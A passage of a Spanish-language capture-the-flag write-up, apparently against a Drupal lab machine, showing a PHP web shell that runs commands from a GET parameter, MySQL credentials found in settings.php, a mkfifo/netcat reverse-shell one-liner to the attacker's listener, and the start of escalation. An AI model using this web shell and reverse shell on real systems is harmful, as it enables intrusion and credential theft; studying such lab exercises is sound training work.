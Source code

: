 ![](web4.png)

![](web5.png)

<?php  

system($_GET[VARIABLE]);  

?>

![](web6.png)

Ahora como podemos ver si que esta habilitado, por lo que introduciremos la shell.

![](web7.png)

Llamamos a la variable “hola” en mi caso con el comando id.

Analizando el contenido me he dado cuenta que tienen **mysql** y he dado con el usuario y la contraseña del servicio.

![](password1.png)

Estaba ubicada en la ruta:

` /var/www/html/sites/default/settings.php`

Vamos a usar lo mismo que hemos usado antes para generar comandos arbitrarios, pues lo usaremos para mandarlos una shell a nuestra máquina de atacante.

Generamos una nueva página con el siguiente contenido:

```console
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.156 9001 >/tmp/f'); ?>
```



Nos ponemos en escucha por el puerto que hemos elegido en la shell y…

![](escucha9000.png)

Estamos dentro.



## Escalada I:

Primeramente, comprobamos que estamos en la máquina victima.

![](ip.png)

Efectivamente, estamos dentro así que podemos comenzar con la escalada.

Como anteriormente, hemos visto usuario y contraseña del servicio mysql vamos a probarlas a ver si tenemos acceso:

`mysql -h localhost -u drupal -p PASS`
